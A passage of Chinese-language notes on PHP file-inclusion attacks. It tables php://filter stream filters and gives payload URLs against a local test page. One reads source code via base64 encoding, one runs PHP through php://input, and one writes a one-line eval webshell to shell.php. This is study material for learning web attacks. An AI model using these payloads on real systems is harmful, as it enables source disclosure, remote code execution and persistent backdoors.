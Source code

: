 可用的过滤器列表（4 类）

| 字符串过滤器      | 作用                                         |
| ----------------- | -------------------------------------------- |
| string.rot13      | 等同于 str_rot13()，rot13 变换               |
| string.toupper    | 等同于 strtoupper()，转大写字母              |
| string.tolower    | 等同于 strtolower()，转小写字母              |
| string.strip_tags | 等同于 strip_tags()，去除 html、PHP 语言标签 |

| 转换过滤器                                    | 作用                                                         |
| --------------------------------------------- | ------------------------------------------------------------ |
| convert.base64-encode & convert.base64-decode | 等同于 base64_encode()和 base64_decode()，base64 编码解码    |
| bzip2.compress & bzip2.decompress             | bzip2.decompress 同上，在本地文件系统中创建bz2 兼容文件的方法 |

| 加密过滤器 | 作用                   |
| ---------- | ---------------------- |
| mcrypt.*   | libmcrypt 对称加密算法 |
| mdecrypt.* | libmcrypt 对称解密算法 |

使用协议读取文件源码，这个是 base64 加密后的数据

```
 php://filter/read=convert.base64-encode/resource=D:/phpstudy/WWW/123.txt
```

<img src=".\图片\Snipaste_2023-02-03_16-54-25.png" alt="Snipaste_2023-02-03_16-54-25" style="zoom:80%;" />

**读取文件源码用法**

```
php://filter/read=convert.base64-encode/resource=[文件名]
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

**执行php代码用法**

```
php://input + [POST DATA]
http://127.0.0.1/include.php?file=php://input       ``[POST DATA部分]``<?php phpinfo(); ?>
```

**写入一句话木马用法**

```
http://127.0.0.1/include.php?file=php://input``[POST DATA部分]``
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```
